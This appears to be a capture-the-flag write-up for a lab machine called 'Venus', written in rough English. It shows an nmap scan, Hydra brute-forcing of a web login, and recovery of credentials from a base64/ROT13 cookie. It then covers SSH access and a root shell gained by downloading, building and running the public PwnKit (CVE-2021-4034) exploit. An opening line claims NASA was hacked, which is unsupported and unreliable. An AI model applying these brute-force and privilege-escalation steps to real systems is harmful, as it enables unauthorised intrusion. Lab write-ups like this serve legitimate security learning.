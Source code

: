 ```yaml
---
layout: post
title: Venus
date: 26-05-2025
categories: [Medium]
tags: [CVE]
image: "https://images.theconversation.com/files/404401/original/file-20210604-13-128m0ja.jpg"
---
```


>Nasa have been hacked and this was reveled about nasa


## Scanning
```
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 01:30 (0:00:06 remaining)
Nmap scan report for 192.168.56.107
Host is up (0.00022s latency).
Not shown: 987 filtered tcp ports (no-response), 11 filtered tcp ports (admin-prohibited)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   256 b0:3e:1c:68:4a:31:32:77:53:e3:10:89:d6:29:78:50 (ECDSA)
|_  256 fd:b4:20:d0:d8:da:02:67:a4:a5:48:f3:46:e2:b9:0f (ED25519)
8080/tcp open  http    WSGIServer 0.2 (Python 3.9.5)
|_http-title: Venus Monitoring Login
MAC Address: 08:00:27:18:54:5E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds

```
![image](https://github.com/user-attachments/assets/c2107323-86e9-4416-a312-14c25cb2180d)


## Enumartion 

By using the port 8080 running the http-proxy server, finsing the posible users in the system
Using the user guest:guest we can see in the reques there is the vlidation auth exncripted with base64, so lets try to fins the other users in the sys.
>This it need more partient.

```
-----------------------------------------------------------------------------------------------------------------------
~/Desktop/redteam/hack/vernus » hydra -L /usr/share/wordlists/rockyou.txt -p guest -s 8080 192.168.56.107 http-post-form "/:username=^USER^&password=^PASS^:Invalid username." 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-26 22:37:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:14344399/p:1), ~896525 tries per task
[DATA] attacking http-post-form://192.168.56.107:8080/:username=^USER^&password=^PASS^:Invalid username.
[STATUS] 4328.00 tries/min, 4328 tries in 00:01h, 14340071 to do in 55:14h, 16 active
[8080][http-post-form] host: 192.168.56.107   login: venus   password: guest
[STATUS] 4356.33 tries/min, 13069 tries in 00:03h, 14331330 to do in 54:50h, 16 active
[STATUS] 4360.86 tries/min, 30526 tries in 00:07h, 14313873 to do in 54:43h, 16 active
[STATUS] 4380.27 tries/min, 65704 tries in 00:15h, 14278695 to do in 54:20h, 16 active
[8080][http-post-form] host: 192.168.56.107   login: magellan   password: guest
[8080][http-post-form] host: 192.168.56.107   login: guest   password: guest
[STATUS] 4370.16 tries/min, 135475 tries in 00:31h, 14208924 to do in 54:12h, 16 active





```
## Initial access
i found the vulneurability is in the page '/' that refrect the authentic cypher on the client side req
so i have to use the credentials of the uses i have get and see if i can manage to get the access to the target, so i have to convert the user and the same pass into base64 and find the loocation were there is the out put break in the system.
finslly i get this and it was encoded of user magellan
bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ==

decrep using base64 and try to identfy the ype of cypher in the user name it was ROT13 then i used the credentials see the picture bellow

![Screenshot From 2025-05-26 23-10-50](https://github.com/user-attachments/assets/e4772143-8a60-4611-9c26-7d67b15249a7)


![Screenshot From 2025-05-26 23-08-55](https://github.com/user-attachments/assets/8aa2a572-3d56-456a-8d3b-1d60eedbfb92)


```
~/Desktop/redteam/hack/vernus » ssh magellan@192.168.56.107                                 255 ↵ cyberkid@cyberkiddle
magellan@192.168.56.107's password: 
Last failed login: Mon May 26 21:05:09 BST 2025 from 192.168.56.1 on ssh:notty
There was 1 failed login attempt since the last successful login.
[magellan@venus ~]$ 




```
Weldone if you have reached in this stage your very awesome lets get the root account.

## Privilage esc
This exploit it need very well understanding in payloads and mashine learning but cool just simple to get ride of
https://codeload.github.com/berdav/CVE-2021-4034/zip/main
This is the link to the exploit have nice time exploire how to use th exploit.

>Finding more strength to the user.

```

[magellan@venus tmp]$ mkdir lilly
[magellan@venus tmp]$ cd lilly/
[magellan@venus lilly]$ wget http://192.168.56.1:8000/CVE-2021-4034-main.zip
--2025-05-26 23:25:44--  http://192.168.56.1:8000/CVE-2021-4034-main.zip
Connecting to 192.168.56.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: ‘CVE-2021-4034-main.zip’

CVE-2021-4034-main.zip        100%[================================================>]   6.31K  --.-KB/s    in 0s      

2025-05-26 23:25:44 (78.3 MB/s) - ‘CVE-2021-4034-main.zip’ saved [6457/6457]

[magellan@venus lilly]$ ls
CVE-2021-4034-main.zip
[magellan@venus lilly]$ unzip CVE-2021-4034-main.zip 
Archive:  CVE-2021-4034-main.zip
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c  
[magellan@venus lilly]$ cd CVE-2021-4034-main/
[magellan@venus CVE-2021-4034-main]$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
[magellan@venus CVE-2021-4034-main]$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
[magellan@venus CVE-2021-4034-main]$ ls
'GCONV_PATH=.'   Makefile    cve-2021-4034     cve-2021-4034.sh   gconv-modules   pwnkit.so
 LICENSE         README.md   cve-2021-4034.c   dry-run            pwnkit.c
[magellan@venus CVE-2021-4034-main]$ ./cve-2021-4034
sh-5.1# whoami
root
sh-5.1# 



```
![image](https://github.com/user-attachments/assets/a3d4c4cc-0655-4d1f-bcba-8b41b6a6d7db)

>Hi I thing it was so tough.
